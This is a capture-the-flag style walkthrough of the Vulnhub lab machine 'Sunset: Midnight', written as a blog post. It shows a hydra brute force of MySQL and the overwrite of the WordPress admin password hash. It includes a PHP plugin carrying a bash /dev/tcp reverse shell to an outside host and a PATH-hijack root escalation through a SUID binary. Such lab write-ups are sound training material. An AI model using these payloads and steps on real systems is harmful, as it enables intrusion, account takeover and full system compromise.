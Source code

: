 ```yaml
---
layout: post
title:  "Vulnhub - SUNSET: MIDNIGHT"
date:   2020-10-23 19:00:00 +1100
category: hacking
---
```


## Introduction
*Difficulty: Intermediate  
Important!: Before auditing this machine make sure you add the host "sunset-midnight" to your /etc/hosts file, otherwise it may not work as expected.*

This is [SUNSET: MIDNIGHT](https://www.vulnhub.com/entry/sunset-midnight,517/) from vulnhub. 

## Ports
This box has:

1. SSH on port 22, 
2. HTTP on port 80, and
3. MariaDB (MySQL) on 3306. 

## HTTP
We have one disallowed entry in robots.txt: *wp-admin*. So we know we're running Wordpress.

``
root@kali:/opt/vulnhub/midnight# wpscan -e --url http://sunset-midnight
``

wpscan gets us one user *admin*. I start a password attack, but it's not getting anywhere. In the meantime:

## MySQL
{% highlight shell %}
root@kali:/opt/vulnhub/midnight# hydra -l 'root' -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt sunset-midnight mysql
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-23 03:08:47
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10000 login tries (l:1/p:10000), ~2500 tries per task
[DATA] attacking mysql://sunset-midnight:3306/
[3306][mysql] host: sunset-midnight   login: root   password: robert
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-23 03:08:48
{% endhighlight %}

So we quickly get some creds for MySQL, cool. We can login:

``
root@kali:/opt/vulnhub/midnight# mysql --host=192.168.1.119 --port 3306 -u root -p
``

Once we're in we can get the *admin* password hash for Wordpress from *wp_users*:

{% raw %}
admin:$P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/
{% endraw %}

But I can't crack it with Hashcat. Hmmm - might as well kill that wpscan password attack. There is also a *mysql* database with a *users* table, and we can find the hashes for our user *root* and another user *jose*. 

{% raw %}
jose:3AA64DAE22DBC5B7ACC28062EB18EFB7046D808C
{% endraw %}

Unfortunately I can't crack the *jose* hash either!

What I can do is change the hash for *admin* in the *wp_users* table:

``
MariaDB [wordpress_db]> UPDATE wp_users SET user_pass = '$P$BusK8xRCOLbSKorQVUvb4/EQA.FOQj.' WHERE user_login = 'admin';
``

The hash above is for the password **none**. 

## Wordpress
With the password for the admin user changed, I can log in to *wp-admin*. Once there, I upload a new plugin in zip format that is actually a reverse shell. The unzipped version looks like this:

{% highlight shell %}
root@kali:/opt/vulnhub/midnight# cat ../kbvuln/rev-plugin.php 
<?php

/**
* Plugin Name: Reverse Shell Plugin  
* Plugin URI:  
* Description: Reverse Shell Plugin  
* Version: 1.0  
* Author: Vince Matteo  
* Author URI: http://www.sevenlayers.com  
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.77/1234 0>&1'");
?>
{% endhighlight %}

Once uploaded and activated, we can catch the shell and we're on the box.

## No way, Jose
I run *linpeas*, because I always run *linpeas*. Even though I could have found it myself, it gives me this:

{% highlight shell %}
[+] Searching Wordpress wp-config.php files
wp-config.php files found:
/var/www/html/wordpress/wp-config.phpdefine( 'DB_NAME', 'wordpress_db' );
define( 'DB_USER', 'jose' );
define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );
define( 'DB_HOST', 'localhost' );
{% endhighlight %}

No wonder I couldn't crack the hash. Anyway, this is also the SSH password for *jose*.

## Root
As *jose*, enumeration turns up an unusual SUID binary:

{% highlight shell %}
jose@midnight:/dev/shm$ file /usr/bin/status
/usr/bin/status: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0b60ab071f1d8a6295eedb7f6815e957f2936171, not stripped
{% endhighlight %}

Disassembling this in Ghidra shows the main method:

{% highlight c %}
undefined8 main(void)

{
  setuid(0);
  setgid(0);
  printf("Status of the SSH server:");
  system("service ssh status");
  return 0;
}
{% endhighlight %}

When we run it, we get the message:
>jose@midnight:/dev/shm$ service ssh status  
-bash: service: command not found

So there is no *service* binary. Maybe we should make one?

{% highlight shell %}
jose@midnight:/dev/shm$ nano service
jose@midnight:/dev/shm# cat service 
#!/bin/bash
/bin/bash

jose@midnight:/dev/shm$ chmod +x service
jose@midnight:/dev/shm$ export PATH=/dev/shm:$PATH
jose@midnight:/dev/shm$ /usr/bin/status
root@midnight:/dev/shm# whoami
root
root@midnight:/dev/shm# cd /root
root@midnight:/root# cat root.txt
ASCII ART REMOVED
db2def9d4ddcb83902b884de39d426e6

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
{% endhighlight %}

Thank you whitecr0wz; I enjoyed this one.
